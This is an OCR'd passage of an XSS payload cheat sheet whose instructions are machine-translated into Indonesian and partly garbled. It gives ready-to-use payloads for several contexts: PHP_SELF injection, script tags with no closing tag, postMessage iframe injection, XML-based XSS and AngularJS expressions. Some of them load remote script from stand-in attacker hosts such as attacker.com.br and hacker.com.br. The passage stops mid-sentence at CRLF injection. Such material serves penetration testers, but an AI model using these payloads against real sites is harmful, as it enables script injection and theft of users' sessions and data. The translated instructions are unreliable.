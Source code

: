      data:text/html,<iframe src=javascript:alert(1)>

> PHP_SELF Injection

Gunakan ketika URL saat ini digunakan oleh kode PHP yang mendasari target sebagai nilai atribut dari

Bentuk HTML, misalnya. Suntikkan antara ekstensi php dan mulai bagian permintaan (?) Menggunakan a

leading slash (/).

      [https://vulnerabilty-xss.com.br/xss.php/](https://vulnerabilty-xss.com.br/xss.php/ "https://vulnerabilty-xss.com.br/xss.php/")"><svg onload=alert(1)>?a=reader

> Script Injection - No Closing Tag

Gunakan ketika ada tag skrip penutup (</script>) di suatu tempat dalam kode setelah reflection.

      <script src=data:,alert(1)>
    
      <script src=//attacker.com.br/1.js>

> Javascript postMessage() DOM Injection (with Iframe)

Gunakan ketika ada pendengar acara "pesan" seperti di "window.addEventListener (‘ message ’, ...)"

dalam kode javascript tanpa pemeriksaan asal. Target harus dapat dibingkai (X-Frame

Pilihan tajuk sesuai konteks). Simpan sebagai file HTML (atau menggunakan data: teks / html) yang disediakan

TARGET_URL dan INJECTION (vektor XSS atau payload).

      <iframe src=TARGET_URL onload="frames\[0\].postMessage('INJECTION','*')">

> XML-Based XSS

Gunakan untuk menyuntikkan vektor XSS dalam halaman XML (tipe konten teks / xml atau aplikasi / xml).

Tambahkan "->" ke payload jika input masuk di bagian komentar atau "\]\]>" jika input masuk a

Bagian "CDATA".

      <x:script xmlns:x="[http://www.w3.org/1999/xhtml](http://www.w3.org/1999/xhtml "http://www.w3.org/1999/xhtml")">alert(1)</x:script>
    
      <x:script xmlns:x="[http://www.w3.org/1999/xhtml](http://www.w3.org/1999/xhtml "http://www.w3.org/1999/xhtml")" src="//hacker.com.br/1.js"/>

> AngularJS Injections (v1.6 and up)

Gunakan ketika ada perpustakaan AngularJS dimuat di halaman, di dalam blok HTML dengan ng-app

direktif (payload pertama) atau buat milik Anda sendiri (yang kedua).

      {{$new.constructor('alert(1)')()}}
    
      <x ng-app>{{$new.constructor('alert(1)')()}}

> CRLF Injection

Gunakan saat aplikasi merefleksikan input di salah satu header respons, memungkinkan injeksi
